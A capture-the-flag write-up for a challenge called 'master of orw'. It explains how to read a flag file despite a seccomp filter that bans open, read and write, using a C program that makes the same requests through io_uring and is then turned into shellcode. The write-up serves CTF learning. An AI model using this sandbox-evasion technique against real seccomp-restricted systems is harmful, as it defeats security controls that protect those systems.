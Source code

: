 ## master of orw

***Note: The source code will not be released in case of any unauthorized usage.***

### Description

The challenge is a shellcode executor with many syscalls banned, such as `open`, `read`, `write`, `execve`.

### Intended Solution

The main idea is "open a file without open syscall", which leads to syscalls of `io_uring`.

As the limit of shellcode length is 0x400 byte, the intended solution is:

- Statically compile an `io_uring` orw demo in C.

    ```c
    // gcc -o shellcode shellcode.c -luring -lseccomp -static
    #include <stdio.h>
    #include <fcntl.h>
    #include <unistd.h>
    #include <liburing.h>
    #include <seccomp.h>
    #include <syscall.h>
    
    #define BUFFER_SIZE 4096
    
    int main() {
        struct io_uring ring;
        struct io_uring_cqe *cqe;
        struct io_uring_sqe *sqe;
        char buffer[BUFFER_SIZE] = {0};
        int fd;
        
        io_uring_queue_init(16, &ring, 0);
        sqe = io_uring_get_sqe(&ring);
        io_uring_prep_openat(sqe, AT_FDCWD, "flag", O_RDONLY, 0);
        io_uring_submit(&ring);
        io_uring_wait_cqe(&ring, &cqe);
        fd = cqe->res;
    
        sqe = io_uring_get_sqe(&ring);
        io_uring_prep_read(sqe, fd, buffer, BUFFER_SIZE, 0);
        io_uring_submit(&ring);
        io_uring_wait_cqe(&ring, &cqe);
        
        sqe = io_uring_get_sqe(&ring);
        io_uring_prep_write(sqe, STDOUT_FILENO, buffer, BUFFER_SIZE, 0);
        io_uring_submit(&ring);
    
        io_uring_queue_exit(&ring);
    
        return 0;
    }
    ```

- Copy the machine code, and shorten it.

- Send the simplified shellcode to the service. ( Check the file `exp.py` to see my shellcode. )

### Other solutions

After checking the collected writeups, I found some solutions using `recvfrom` or other ways to send a whole file to execute. I think it is also a novel idea. Hopefully this challenge didn't distress you so much : )





